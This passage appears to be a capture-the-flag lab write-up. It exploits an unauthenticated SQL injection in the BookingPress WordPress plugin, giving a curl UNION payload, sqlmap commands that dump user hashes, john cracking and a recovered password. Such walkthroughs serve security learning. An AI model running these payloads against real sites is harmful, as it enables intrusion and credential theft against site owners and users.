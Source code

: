         </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description:</span><br>
            The <code>total_service</code> parameter in the <code>bookingpress_front_get_category_services</code> action is not properly sanitized, allowing SQL injection without authentication.
        </div>
    </div>
</div>

### Manual Verification

Retrieved nonce from the Events page source code, then testing the injection:

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Result:</strong> SQL injection confirmed\!
    </p>
</div>

### Exploitation with sqlmap

```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST \
--data "action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111" \
-p total_service --level=5 --risk=3 --dbs
```

**Databases discovered:** `information_schema` and `blog`

### WordPress Users Extraction

```bash
sqlmap -D blog -T wp_users --dump
```

**Retrieved credentials:**

```
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Password Cracking

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt wp_users.hash
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-key mr-2 text-green-500"></i>
        Password found: manager:partylikearockstar
    </p>
</div>
